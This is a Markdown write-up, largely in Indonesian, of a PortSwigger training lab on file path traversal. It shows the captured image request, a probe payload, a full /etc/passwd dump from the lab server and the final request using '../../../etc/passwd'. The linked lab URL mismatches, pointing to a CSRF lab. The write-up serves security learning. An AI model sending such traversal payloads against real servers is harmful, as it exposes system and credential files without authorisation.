

# File path traversal, simple case

> **Lab Description:** This lab contains a path traversal vulnerability in the display of product images. To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Lab Overview

| Property             | Detail                                                                            |
| :------------------- | :-------------------------------------------------------------------------------- |
| **Category**         | Directory Traversal                                                               |
| **Difficulty Level** | Apprentice                                                                        |
| **Lab URL**          | [PortSwigger Lab Link](https://portswigger.net/web-security/csrf/lab-no-defenses) |
| **Status**           | In progress                                                                       |
| **Date Completed**   |                                                                                   |

## Analysis

Diberikan website sebagai berikut:


Objektif dari lab ini adalah kita diminta mengakses directory `/etc/passwd` terhadap web yang rentan terhadap `path traversal` terutama pada page display product imagesnya.

Pertama, saya capture request ketika browser sedang memuat gambar pada halaman beranda, browser memuat gambar dengan cara `/image?filename=?`



Kedua, saya teruskan salah satu request ke burp repeater dan saya coba payload berikut:

```text
GET /image?filename=../../../
```

Response-nya

```text
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"
```

## Exploitation

Saya susun payloadnya, setelah itu saya teruskan requestnya ke browser

Respons-nya

```text
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false

```


### Final Exploit

```text
GET /image?filename=../../../etc/passwd
```

## New Knowledge

- Mempelajari cara kerja `Path Traversal`

## References

- [Path traversal by Portswigger](https://portswigger.net/web-security/file-path-traversal)
- [Path traversal by OWASP](https://community.owasp.org/attacks/Path_Traversal)
